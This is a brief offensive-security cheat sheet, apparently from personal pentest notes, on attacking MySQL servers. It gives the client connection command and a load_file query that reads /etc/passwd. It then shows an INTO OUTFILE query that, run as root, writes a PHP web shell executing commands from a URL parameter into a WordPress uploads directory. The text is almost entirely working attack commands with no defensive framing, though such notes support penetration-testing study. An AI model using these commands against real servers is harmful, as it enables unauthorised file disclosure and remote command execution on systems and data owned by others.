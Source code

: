 #service #db

### Usage
```bash
mysql -h <ip_address> -u <user>
```

If you have read permission you can list files
```bash
MySQL > select load_file("/etc/passwd");
```

`root` user

```sql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php"
```